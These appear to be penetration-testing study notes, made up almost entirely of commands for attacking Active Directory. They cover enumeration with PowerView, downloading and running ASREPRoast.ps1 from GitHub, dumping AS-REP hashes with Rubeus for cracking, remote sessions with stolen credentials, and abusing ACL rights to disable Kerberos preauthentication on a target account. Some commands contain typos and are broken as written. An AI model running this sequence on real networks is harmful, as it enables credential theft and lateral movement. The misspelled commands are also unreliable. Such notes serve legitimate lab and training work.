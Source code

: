 ```
```
```
Get-DomainComputer
```
Looking at the CN values for hostnames.  Now with the $TARGET_USER creds, we can access other computers.  AD? DC?
#### 89 Targeted Kerberoasting AS REPs
```
. .\PowerView.ps1
```
```
Get-DomainUser -PreauthNotRequired -Verbose
```
$TARGET_USER == user on list.
```
wget https://raw.githubusercontent.com/HarmJ0y/ASREPRoast/master/ASREPRoast.ps1
```
```
. .\ASREPRoast.ps1
```
```
Invoke-ASREPRoast -Verbose
```
Can be done with Rubeus as well:
```
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes
```
[[Hashcat#Kerberos AS-REP]]
```
Enter-PSSession -ComputerName $NETBIOS_COMPUTER_NAME -credential $NETBIOS_DOMAIN_NAME\$USER
```
#### 90 Targeted Kerberoasting AS REPs SET
Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
![[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\PowerView.ps1
```
Look for GenericAll or GenericWrite access to a user.
```
Get-DomainUser -PreauthNotRequired
```
Nothing found.
Copy your current user's Security Identifier value:
```
Get-DomianUser -Name $USER
```
```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match '$SID')}
```
Nothing found.
```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SID')}
```
If nothing is still found, try the following command, and manually review ActiveDirectoryRights field.
```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.SecurityIdentifier -match '$SID')}
```
Set to don't require preauth.
https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties
```
Set-DomainObject -Identity $TARGET_USER -XOR @{useraccontcontrol=4194304} -Verbose
```